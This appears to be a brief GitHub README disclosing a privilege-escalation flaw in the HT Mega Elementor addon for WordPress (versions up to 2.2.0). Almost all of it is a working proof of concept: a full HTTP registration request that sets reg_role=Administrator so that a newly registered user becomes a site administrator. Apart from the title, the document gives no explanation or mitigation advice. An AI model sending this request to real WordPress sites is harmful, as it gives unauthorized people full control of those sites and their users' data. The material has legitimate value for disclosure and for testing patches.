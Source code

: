 # ht-mega
"HT Mega – Absolute Addons for Elementor &lt;= 2.2.0 - Missing Authorization to Privilege Escalation"

Requires registration to be enabled.

Proof of Concept
---
```
POST /my-account/ HTTP/2
Host: wordpress.lan
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 165
Origin: http://wordpress.lan
Referer: http://wordpress.lan/my-account/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=robbie@wordpress.lan&password=testest123%21&woocommerce-register-nonce=bfg37lz911&_wp_http_referer=%2Fmy-account%2F&register=Register&reg_role=Administrator
```
